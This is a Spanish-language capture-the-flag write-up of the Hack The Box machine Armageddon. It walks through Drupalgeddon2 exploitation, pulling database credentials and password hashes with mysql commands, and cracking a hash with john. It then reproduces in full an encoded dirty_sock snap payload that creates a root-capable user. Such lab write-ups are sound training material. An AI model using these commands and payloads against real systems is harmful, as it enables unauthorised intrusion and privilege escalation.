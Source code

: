 ```yaml
---
title: "HTB - Armagedon"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/armeggedon.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | bertolis
Dificultad | Fácil
Liberación | 27 Marzo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.10.233 solo encontramos que está abierto el 80
(web)

```
# Nmap 7.91 scan initiated Sun May 16 20:18:43 2021 as: nmap -p 22,80 -sSC -oN Nmap.txt
10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.23s latency).
PORT STATE SERVICE
22/tcp open ssh
| ssh-hostkey:
|  2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|  256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_ 256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open http
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Armageddon | Armageddon
# Nmap done at Sun May 16 20:18:52 2021 -- 1 IP address (1 host up) scanned in 9.00 seconds
```

Empezamos a hacer reconocimiento de la web con whatsweb y nos damos cuenta que es un
drupal, y con ayuda de robots.txt podemos ver el CHANGELOG.txt nos damos cuenta que es un drupal
v. 7.58.

Con searchxploit nos damos cuenta que hay un exploit en Metasploit llamado
**exploit/unix/webapp/drupal_drupalgeddon2** que nos permite obtener la 1° shell

![Armageddon 1](/assets/images/post/2021/armeggedon.png)

## 1° Shell

Revisamos la carpeta sites y de ahí se busca los datos de la conexión a la base de datos que se
encuentra en /var/www/html/sites/default/settings.php y vemos que son usuario drupaluser y
password CQHEy@9M*m23gBVj, el problema es que tenemos una shell muy básica por lo que nos
obliga a usar el siguiente script para enumerar la BD.

```
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

Para así obtener los datos de *brucetherealadmin* y obtener el hash de su clave. Con la
ayuda de john the ripper y utilizando el diccionario rockyou obtenemos la clave booboo.

```
[brucetherealadmin@armageddon ~]$ john pass --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)

[brucetherealadmin@armageddon ~]$ john pass —show
?:booboo

1 password hash cracked, 0 left
```

## Shell Usuario

Con la clave obtenida podemos ingresar mediante ssh. Una vez adentro podemos leer la flag de
usuario.

Lo primero que debemos ver es si tenemos algun permiso de sudoer con sudo -l, y nos damos
cuenta que tenemos permiso para /usr/bin/snap install *, por lo que buscamos si tenemos alguna
forma de escalar privilegios.

Investigando vemos que podemos crear nuestra propia aplicación snap usando el proyecto
disrty_socket, lo que generará un usuario con escalada de privilegios locales.

```
[brucetherealadmin@armageddon ~]$ python -c "print
('aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAA
AAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1
daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3
Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc2
9jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHkt
c29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOi
AnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFt
ZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP
8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET
/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8
BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZ
ecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAA
AAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'+ 'A' * 4256
+ '==')" | base64 -d > racso.snap
sudo snap install racso.snap —devmode
```

## Root Shell

Con el usuario dirty_socket creado (dirty_sock:dirty_sock) utilizamos sudo su para acceder
como root y obtener la flag.

```
[brucetherealadmin@armageddon ~]$ su dirty_sock
Contraseña:
[dirty_sock@armageddon brucetherealadmin]$ sudo su
[root@armageddon brucetherealadmin]#
````

![Racso](https://www.hackthebox.com/badge/image/159593)